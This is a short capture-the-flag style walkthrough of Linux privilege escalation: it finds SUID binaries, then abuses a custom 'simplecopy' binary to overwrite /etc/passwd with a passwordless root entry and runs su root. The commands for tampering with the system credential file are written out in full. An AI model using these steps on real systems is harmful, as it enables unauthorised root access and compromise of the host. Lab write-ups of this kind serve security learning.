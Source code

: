 Find SUID bin using `find / 2>/dev/null -perm -u=s`
```
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```

`simplecopy` bin looks interesting. When we run it we see `Usage: simplecopy <source> <destination>`

Ok looks like we can abuse this to copy anything to anywhere.

let try remove root password in `/etc/passwd` file

```
echo root::0:0:root:/root:/bin/bash > ~/passwd
simplecopy ~/passwd /etc/passwd
su root
```

Success, now we are root


**REF**

[Linux-Privilege-Escalation-Basics](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics)
